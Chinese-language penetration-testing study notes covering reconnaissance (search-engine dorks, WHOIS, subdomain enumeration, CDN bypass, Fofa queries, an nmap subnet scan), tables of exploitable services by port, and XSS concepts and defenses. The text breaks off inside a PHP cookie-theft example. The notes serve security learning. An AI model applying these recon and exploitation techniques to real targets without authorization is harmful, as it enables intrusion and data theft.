








# 第一天

## 信息收集

### 1. 概述

#### (1). 含义

* 信息收集是指**通过各种方式获取所需要的信息**，以便我们在后续的渗透过程中更好地进行。

#### (2). 方式

##### a. 主动收集

* 与目标主机**直接交互**，从而拿到目标信息，缺点是会记录自己的操作信息。

##### b. 被动收集

* 不与目标主机进行直接交互，通过**搜索引擎或者社会工程**等方式**间接地**获取目标主机的信息。

#### (3). 内容

1. 服务器的配置信息
2. 网站的信息
   * 网站**注册人**
   * 目标**网站系统**
   * 目标**服务器系统**
   * 目标网站相关**子域名**
   * 目标服务器的**开放端口**
3. 只要与目标网站相关联的信息，都应该尽量去收集



#### (4). 渗透流程

1. **获取渗透测试授权书**
2. **信息收集**
3. 漏洞挖掘
4. 入侵攻击
5. 权限提升
6. 权限维持
7. 横向移动
8. **痕迹清理**
9. 输出报告

#### (5). 收集信息

* whois信息、子域名、目标IP、旁站C段查询、邮箱搜集、CMS类型、敏感目录、端口信息、服务器与中间件信息



### 2. Google Hacking

* 利用谷歌搜索的强大，可以搜出不想被看到的后台、泄露的信息、未授权访问，甚至还有一些网站配置密码和网站漏洞等

#### (1). 语法

##### a. site

* 找到与指定网站**有联系**的url

* ```
  site:baidu.com
  ```

##### b.inurl/allinurl

* 返回**url**中含有关键词的网页，或指定**多个关键词**

* ```
  inurl:login
  (inurl:login|index)
  
  allinurl:login admin
  inurl:login admin
  ```

##### c. intext/allintext

* 寻找**正文**中含有关键字的网页，或指定正文中的**多个关键字**

* ```
  intext:登录    
  intext:"登录"
  
  allintext:后台 登录 公司
  allintext:"后台" "登录" "公司"
  ```

##### d. intitle/allintitle

* 寻找**标题**中含有的关键字的网页，或指定标题**多个关键字**

* ```
  intitle:后台登录
  intitle:"后台登录"
  
  allintitle:中国 后台 登录
  allintitle:"中国" "后台" "登录"
  ```

##### e.filetype

* 指定访问的**文件类型**

* ```
  filetype:doc|pdf|xlsx
  ```

### 3. 域名信息收集

#### (1). 备案信息号

##### a. ICP备案信息收集

* 爱站：https://icp.aizhan.com/
* 站长之家：https://icp.chinaz.com/
* ICP备案查询网：https://www.beianx.cn/search/
* 工信部ICP备案查询：https://beian.miit.gov.cn/

##### b.备案反查域名信息

* 备案信息包括单位名称、备案编号、**网站负责人**、**电子邮箱**、联系电话、法人等

* 工信部ICP备案查询：https://beian.miit.gov.cn/
* ICP备案查询网：https://www.beianx.cn/search/

#### (2). Whois信息收集

* 获取关键注册人信息，包括注册公司、注册邮箱、管理员邮箱、管理员联系手机等，甚至还能查询同一注册人注册的其他域名。域名对应的NS记录、MX记录、自动识别国内常见的托管商(万网、新网等)

* 国外who is ：https://who.is/
* 站长之家：http://whois.chinaz.com/
* 爱站：https://whois.aizhan.com/
* 微步：https://x.threatbook.cn/
* IP138网站：https://site.ip138.com/
* 腾讯云：https://whois.cloud.tencent.com/
* 狗狗查询：https://www.ggcx.com/main/integrated

#### (3). IP反查域名

* 目标可能存在多个域名绑定于同一IP上，通过IP反查可以获取到其他域名信息，比如**旁站**
* 通过获取目标真实IP后，进行反查的旁站更真实

##### a. 工具

* 站长工具：https://stool.chinaz.com/same
* dnslytics：https://dnslytics.com/
* ip138：https://site138.com
* Fofa：https://fofa.info
* 奇安信鹰图：https://hunter.qianxin.com/
* Shodan.io：https://www.shodan.io/

### 4. 子域名信息收集

#### (1). 收集原因

* 主域名防护严密，很难进入，选择从防护没那么严密的子域名入手，进行迂回攻击

#### (2). 利用点

##### a. 资产类型

* 办公系统、邮箱系统、管理系统、网站管理后台、论坛、商城等系统

##### b. 利用方式

* 维护成本低于主域名，可能存在版本迭代、配置不安全、弱密码账号管理策略等

#### (3). 收集方法

##### a. 搜索引擎枚举

* 使用谷歌语法  `site:域名`

##### b. 在线网站

* 查子域：https://chaziyu.com/
* 微步社区：https://x.threatbook.com/
* VT：https://www.virustotal.com/gui/home/search
* RapidDNS：https://rapiddns.io/subdomain

##### c. 枚举子域名工具

###### ①Layer子域名挖掘机

*   https://github.com/euphrat1ca/LayerDomainFinder
* 支持**服务接口、暴力搜索、同服挖掘**三种模式

###### ②SubDomainsBrute

* https://github.com/lijiejie/subDomainsBrute
* 支持高并发DNS爆破和识别域名泛解析

###### ③Oneforall

* https://github.com/shmilylty/OneForAll
* 利用多个API接口模块收集子域名信息

###### ④Subfinder + ksubdomain + httpx

* https://github.com/Mr-xn/subdomain_shell
* 域名发现-> 域名验证  -> 获取域名标题、状态码及响应大小 -> 响应结果  

##### d. 证书透明度收集子域

###### ①crt.sh

* https://crt.sh/

##### e. JS文件中收集子域

###### ①JsFinder

| 参数 | 含义             |
| ---- | ---------------- |
| -u   | 指定url          |
| -d   | 深度爬取         |
| *-j* | 指定从js文件获取 |

###### ②URLFinder

| 参数 | 含义                         |
| ---- | ---------------------------- |
| -d   | 指定获取的域名               |
| -f   | 批量url抓取，指定url文本路径 |
| -m   | 抓取模式                     |
| -s   | 显示状态码，all为全部        |
| -u   | 指定URL                      |

##### f. 第三方聚合应用

###### ①dnsdumpster

* http://dnsdumpster.com

###### ②dnsdb

* https://dnsdb.io/zh-cn

###### ③灯塔ARL自动化收集

* https://github.com/honmashironeko/ARL-docker

##### g. 域传送漏洞

* DNS服务器分为：主服务器、备份服务器和缓存服务器，在主备服务器之间同步数据库，需要使用**DNS域传送**
* 域传送是指后备服务器从主服务器拷贝数据，并用得到的数据更新自身数据库
* DNS服务器配置不当，导致匿名用户利用DNS域传送协议获取某个域的所有记录，通过可以实现DNS域传送协议的程序，尝试匿名进行DNS域传送，获取记录
* **Crossdomain.xml**文件用于**跨域策略文件**，主要为Web客户端(Adobe Flash Player等)设置跨域处理数据的权限

# 第二天

## 信息收集

### 1.服务器信息收集

#### (1). 端口扫描

* 扫描工具：Nmap、Zenmap、masscan

##### a. 文件共享服务

| 端口号   | 端口说明                | 利用方向                       |
| -------- | ----------------------- | ------------------------------ |
| 21/22/69 | FTP/TFTP文件传输协议    | 允许匿名上传、下载、爆破和嗅探 |
| 2049     | NFS服务                 | 配置不当                       |
| 139      | Samba服务               | 爆破、未授权访问、远程代码执行 |
| 389      | LDAP目录访问协议(类RDP) | 注入、允许匿名访问、弱口令     |

##### b. 远程连接服务

| 端口号 | 端口说明        | 利用方向                                     |
| ------ | --------------- | -------------------------------------------- |
| 22     | SSH远程链接     | 爆破、SSH隧道及内网代理转发、文件传输        |
| 23     | Telnet          | 爆破、嗅探、弱口令                           |
| 3389   | RDP远程桌面连接 | Shift后门(Windows Server 2003以下版本)、爆破 |
| 5900   | VNC             | 弱口令爆破                                   |
| 5632   | PyAnywhere服务  | 抓密码、代码执行                             |

##### c. Web应用服务

| 端口号      | 端口说明                 | 利用方向                          |
| ----------- | ------------------------ | --------------------------------- |
| 80/443/8080 | 常见Web服务端口          | Web共攻击、爆破、对应服务版本漏洞 |
| 7001/7002   | Weblogic控制台           | Java反序列化、弱口令              |
| 8080/8089   | Jboos/Resin/Jettyjenkins | 反序列化、控制台弱口令            |
| 90900       | WebSphere                | Java反序列化、弱口令              |
| 4848        | GlassFish控制台          | 弱口令                            |
| 1352        | Lotus dominion邮件服务   | 弱口令、信息泄露、爆破            |
| 10000       | Webmin-Web控制面板       | 弱口令                            |

```
443 80 8081 8088 8888 8443 888 8080-8089
```

##### d. 数据库服务

| 端口号      | 端口说明    | 利用方向                    |
| ----------- | ----------- | --------------------------- |
| 3306        | MySQL       | 注入、提权、爆破            |
| 1433        | MSSQL       | 注入、提权、爆破、SAP弱口令 |
| 1521        | Oracle      | TNS爆破、注入、反弹shell    |
| 5432        | PostgreSQL  | 爆破、注入、弱口令          |
| 27017/27018 | MongoDB     | 爆破、未授权访问            |
| 6379        | Redis       | 未授权访问、弱口令爆破      |
| 5000        | SysBase/DB2 | 爆破、注入                  |

##### e. 邮件服务端口

| 端口号 | 端口说明     | 利用方向   |
| ------ | ------------ | ---------- |
| 25     | SMTP邮件服务 | 邮件伪造   |
| 110    | POP3         | 爆破、嗅探 |
| 143    | IMAP         | 爆破       |

##### f. 网络常见协议端口

| 端口号 | 端口说明        | 利用方向                              |
| ------ | --------------- | ------------------------------------- |
| 53     | DNS域名解析系统 | 允许区域传送、DNS劫持、缓存投毒、欺骗 |
| 67/68  | DHCP服务        | 劫持、欺骗                            |
| 161    | SNMP协议        | 爆破、搜集目标内网信息                |

##### e. 特殊服务

| 端口号      | 端口说明               | 利用方向              |
| ----------- | ---------------------- | --------------------- |
| 2128        | Zookeeper服务          | 未授权访问            |
| 8068        | Zabbix服务             | 远程执行、SQL注入     |
| 9200/9300   | Elasticsearch服务      | 远程执行              |
| 11211       | Memcache服务           | 未授权访问            |
| 512/513/514 | Linux Rexec服务        | 未授权访问            |
| 873         | Rsync服务              | 匿名访问、文件上传    |
| 3690        | SVN服务                | SVN泄露、未授权访问呢 |
| 50000       | SAP Management Console | 远程执行              |

#### (2). 操作系统判断

##### a. 开放端口

| Win系统常见端口 | Linux系统常见端口   |
| --------------- | ------------------- |
| IIS-80          | ssh-22              |
| rpc/135         | NETBIOS-137 138 139 |
| smb-445         |                     |
| rdp-3389        |                     |
| mssql-1433      |                     |

##### b. 大小写

* Windows对**大小写不敏感**，而Linux对**大小写敏感**

##### c. TTL值

* ping命令，**返回TTL值**，**Windows通常是128**，大于100；**Linux是64**，小于100

##### d. 其他方式

* 网站的脚本类型：asp、aspx、jsp、php
* phpinfo的信息泄露
* 等等

### 2. 网站信息收集

#### (1). CMS指纹识别

##### a. 作用

* 通过识别指纹，可以确定**目标的CMS及版本**，进一步利用公开的**POC**或**EXP**进行攻击

##### b. 工具

1. kali中的whatweb
2. 云悉：http://www.yunsee.cn/
3. 潮汐：http://finger.tidesec.net/
4. Wappalyzer插件
5. Glass：https://github.com/s7ckTeam/Glass
6. 棱洞：https://github.com/EdgeSecurityTeam/Ehole

##### c. 漏洞利用

1. **常规搜索引擎**，直接搜索识别到的CMS指纹漏洞
2. **乌云漏洞库**
3. Cnvd搜索识别到的cms指纹
4. Github搜索识别到的指纹
5. 源代码审计
   1. 全文通读——漏洞挖掘最全
   2. 敏感函数回溯——方便快捷挖掘漏洞
   3. 代码、命令执行
      * php**代码执行**函数
      * php**命令执行**函数
   4. 定向功能分析法——定向挖掘某块功能的漏洞

#### (2). 判断Web中间件

##### a. 解析漏洞

1. 了解网站的**Web服务器**是那种
2. 了解具体的Web服务器**版本**
3. 寻找对应的**解析漏洞**

#### (3). 判断脚本类型

* 根据网站URL判断
* 谷歌语法：``site:xxx filetype:php``
* 根据firefox的插件来判断
* 目录爆破/文件爆破
* 漏洞扫描器(awvs、xray、appscan)

#### (4). 判断数据库类型

##### a. 类型

###### ①Access

* 全名是Microsoft Office Access，小型数据库，>100M时性能下降，**后缀名：.mdb**，一般是asp网页文件使用

###### ②SQL Server

* 关系型数据库管理系统(DBMS)，后缀名：**.mdf**，默认端口**1433**

###### ③MySQL

* DBMS，属于Oracle旗下产品，默认端口**3306**

###### ④Oracle

* DBMS，适用于大型网站，默认端口**1521**

##### b. 判断方式

###### ①端口

| 数据库 | 端口 |
| ------ | ---- |
| MSSQL  | 1433 |
| MySQL  | 3306 |
| Oracle | 1521 |

###### ②脚本类型

| 脚本      | 数据库             |
| --------- | ------------------ |
| ASP、ASPX | ACCESS、SQL Server |
| PHP       | MySQL、PostgreSQL  |
| JSP       | MySQL、Oracle      |

###### ③漏洞扫描器

#### (5). 目录结构

###### ①常见敏感文件

* .SVN泄露
* .git泄露
* 网站备份压缩文件
* 御剑7kbwebpathscanner
* .DS_Store文件
* WEB-INF文件
* Web.config配置文件
* 配置文件泄露

###### ②常见工具

* **Burpsuite**
* **御剑**
* Dirbuster java
* Dirb
* dirsearch
* 7kbscan
* **搜索引擎**

### 3. 真实IP信息收集

#### (1). CDN绕过

##### a. 常规方法

###### ①国外访问或多地区访问

* 如果只针对国内用户的访问加速，使用国外代理网站(Monitor:https://asm.ca.com/en/ping.php)则可以获取到**服务器真实IP**

###### ②历史DNS记录查找

###### ③子域名查找

* 如果分站没挂载CDN，但**和主站在同一C段下**，则可以通过子域名获取分站IP

###### ④网站漏洞查找

* 通过**网站漏洞**，扫描网站**测试文件**，例如phpinfo、test等，从而找到目标真实IP

###### ⑤网站邮件查找

* 查找**邮件头**中的**邮件服务器域名IP**

##### b. 非常规方法

###### ①扫描全网

* 在线网站：钟馗之眼、shodan、fofa
* 直接尝试用IP访问，看看响应的页面和访问域名返回的是否一样

#### (2). 判断是否存在CDN

##### a. 多地ping

* http://ping.chinaz.com/
* https://ping.aizhan.com/
* 结合**fofa搜索对应IP地址**辨别真实IP地址

##### b. Nslookup

* 获取到的DNS域名解析结果中返回多个IP的，一般存在CDN服务

##### c. Header头信息

* 请求响应包**header头**中存在CDN服务商信息
* 报错信息，页面状态码为**400错误**，一般是CDN
* 若asp或者asp.net网站返回头的Server不是IIS，而是Nginx，即是使用了nginx反向代理到CDN

##### d. 在线检测工具

* https://www.cdnplanet.com/tools/cdnfinder/
* https://tools.ipip.net/cdn.php

#### (3). 真实IP收集

##### a. DNS历史记录

* http://viewdns.info/iphistory/?domain=
* https://securitytrails.com/
* https://x.threatbook.com/
* https://site.ip138.com/

##### b. 网络空间测绘搜索引擎

###### ①网站

* https://fofa.info
* https://search.ccenysy,io
* https://quake.360.net
* https://hunter.qianxin.com
* https://www.shodan.io

###### ②用法

* **子域名**、https证书、网站标题、**网站图标**、**ICP备案信息**、html正文内容、js/css/html静态资源特征值

###### ③fofa语法

```
domain=="ichunqiu.com"	//搜索根域名为“ichunqiu.com”的网站
host="ichunqiu.com"		//从url中搜索
cert=="ichunqiu.com"	//从https证书中搜索
cert=="https证书序列号值10进制"	//利用证书序列号定位
icp="京ICP证150695号"	 //利用备案号定位
title="在线安全培训平台"	//利用网站标题特征定位
icon_hash="-1941347393"		//利用网站icon图标特征定位
body="会员登录_i春秋"		//利用html正文特征定位
body="<div class=header_hostsearch J_header_hotsearch>"	//利用网站静态资源文件定位
fid=""		//利用fofa网站指纹定位
```

### 4. 域名信息收集

#### (1)Host碰撞

##### a. 现象

* IP访问响应多为：nginx、4xx、500、503、各种意义不明的Route json提示
* 域名解析到内网地址
* 有服务器真实IP，但找不到内网域名

##### b. 原因

* 中间件对IP访问做了限制，不能直接通过ip访问，必须使用域名进行访问。此时使用HOST碰撞技术，通过**将域名和IP进行捆绑碰撞，一旦匹配到后端代理服务器上的域名绑定配置**，就可以访问到对应的业务系统，从而发现隐形资产

##### c. 手法



### 5. C段/旁站信息收集

###### ①概念

```
旁站：	和目标网站在同一服务器上的其他网站
C段：	和目标服务器ip处在同一个C段的其他服务器
```

###### ②查询方式

1. 利用Bing.com，语法为 

   ```
   http://cn.bing.com/search?q=ip:1.1.1.1
   ```

2. 站长之家http://s.tool.chinaz.com/same

3. 利用Google.com.语法为

   ```
   site:123.123.123.*
   ```

4. 利用Nmap，语法为

   ```
   nmap -p 80,8080 -open ip/24
   ```

5. K8工具、御剑、北极熊扫描器等

6. 在线网站：http://www.webscan.cc/

### 6. 企业信息收集



# 第四天

## XSS

### 1. 概述

#### (1)DOM

##### a. windows对象

###### ①location

* 显示**定位信息**

  | 方法              | 含义               |
  | ----------------- | ------------------ |
  | location.ostname  | 返回web主机的域名  |
  | location.pathname | 返回当前页面的路径 |
  | location.port     | 返回web主机的端口  |
  | location.protocol | 返回使用的web协议  |

  

###### ②navigator

* 包含有关**访问者浏览器**的信息

  | 对象                     | 含义            |
  | ------------------------ | --------------- |
  | navigator.appCodeName    | 浏览器代号      |
  | navigator.appName        | 浏览器名称      |
  | navigator.appVersion     | 浏览器版本      |
  | navigator.cookieEnabled  | 是否启用Cookies |
  | navigator.platform       | 硬件平台        |
  | navigator.userAgent      | 用户代理        |
  | navigator.systemLanguage | 用户代理语言    |

###### ③document

#### (2)XSS

##### a. 介绍

* XSS又叫CSS(Cross Site Script)，全称**跨站脚本攻击**，是指攻击者往**WEB页面或者URL**里面插入**恶意JS代码**，如果WEB应用程序对于用户**输入的内容没有过滤**，当正常用户浏览该网页时，嵌入到**Web页面的恶意JS代码**会被执行，从而达到恶意攻击正常用户的目的

##### b. 位置

###### ①数据交互

* get post cookie headers方法
* 富文本编辑器
* 各类标签插入和自定义

###### ②数据输出

* 用户资料
* **搜索框**
* 关键词、标签、说明

##### c. 原理

###### ①图形介绍


###### ②文字描述

* XSS，是指攻击者通过在**Web页面中写入恶意脚本**，造成用户在浏览页面时，获取控制用户浏览器进行操作的攻击方式

##### d. 产生条件

1. 可以控制的输入点
2. 输入能返回到前端页面上，**被浏览器当做脚本语言解释执行**

##### e. 危害

1. 获取用户Cookie

2. 键盘记录

3. 客户端信息探查

4. XSS组合其他漏洞getshell

5. 劫持用户会话，执行任意操作

6. 刷流量，执行弹窗广告

7. 传播蠕虫病毒

   ...

##### f. 防御

1. 使用**XSS Fileter**
   * **过滤**用户(**客户端**)提交的有害信息
2. 输入**过滤**
   * 对用户输入进行过滤
3. 输入**验证**
   * 对用户提交的信息进行有效验证(非法字符、字符串长度、输入格式)
4. 输出**编码**
   * 使用对应的**HTML实体**代替字符

### 2. 检测方法

* **工具与手动相结合**(非常规XSS漏洞，例如提交留言时的短信验证、验证码填写等)

#### (1). 手工监测

* 考虑输入在哪里，输出的数据在哪里

###### ①已知输出位置

* 输入敏感字符，请求后查看HTML源码(`Ctrl + U`)，看**是否被转义**

###### ②未知输出位置

#### (2). 自动检测

* APPSCAN、AWVS、BurpSuite等**大类漏扫工具**
* XSStrite等**专扫工具**

### 3. 分类

| 类型   | 存储区                  | 插入点         |
| ------ | ----------------------- | -------------- |
| 反射型 | URL                     | HTML           |
| 存储型 | 后端数据库              | HTML           |
| DOM型  | 后端数据库/前端存储/URL | 前端javaScript |

#### (1)反射型

##### a. 概念

* **非持久性**、参数型的跨站脚本

##### b. 存在位置

* 常见于通过**URL传递参数**的功能，如网站搜索、跳转等

##### c. 攻击手法

* 需要**欺骗用户去点击恶意链接**才能触发XSS代码，一般容易出现在搜索框



#### (2)存储型

##### a. 概念

* 持久性，能够将恶意代码写进数据库或文件，永久保存在数据介质中

##### b. 存在位置

* **数据写入地点**，例如留言板、评论区或文章发表处

##### c. 攻击手法

* 通过**数据写入点**，将精心构造的XSS代码**保存到数据库**中，当其他用户**再次访问**时，就会**触发并执行**恶意的XSS代码



#### (3)DOM型

##### a. 概念

* **不经过后端**，输出点在**DOM**，通过**url传入参数**去控制触发，属于反射型XSS

##### b. 存在位置

* 存在DOM操作的地方

##### c. 攻击手法

1. 攻击者构造特殊的URL，其中包含恶意代码，用户点击恶意链接
2. 用户浏览器接收到响应后解析执行，前端JS取出URL中的恶意代码并执行
3. 恶意代码窃取到用户数据并发送到攻击者的网站，来进行进一步的操作

##### d. 常用DOM方法

| 方法                     | 含义                                                    |
| ------------------------ | ------------------------------------------------------- |
| getElementById()         | 返回带有指定ID的元素                                    |
| getElementsByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/数组) |
| getElementsByClassName() | 返回包含有指定类名的所有元素的节点列表                  |
| appendChild()            | 把新的子节点添加到指定节点                              |
| removeChild()            | 删除子节点                                              |
| replaceChild()           | 替换子节点                                              |
| insertBefore()           | 在指定的子节点前插入新的子节点                          |
| createAttribute()        | 创建属性节点                                            |
| createElement()          | 创建元素节点                                            |

#### (4)区别

##### a. 存储型与反射型

* 存储型XSS的恶意代码在数据库，而反射型XSS的恶意代码在URL里

##### b. DOM型与其他

* DOM型XSS攻击，取出和执行恶意代码**由浏览器完成**，属于前端**JavaScript自身的安全漏洞**，另外两种属于**服务端的**安全漏洞

### 4. 简单利用

#### (1)获取管理权限

* 通过获取**Cookie**，从而获取管理员权限

##### a. Cookie作用

* 记录用户敏感信息，当再次访问网站时，浏览器会自动监听这个文件，并将存储在本地的Cookie信息发送给网站进行进一步的判断。**持久型Cookie**以文本形式存储在硬盘上，由浏览器存取；**临时型Cookie**也称会话Cookie，存储在内存中，仅供当次浏览器运行使用。

##### b. 实例

```php
index.php页面，模拟真实用户的使用，但留有JS后门
<?php
if(isset($_POST['submit'])){
    setcookie("name","goodjob");
}
?>
<html>
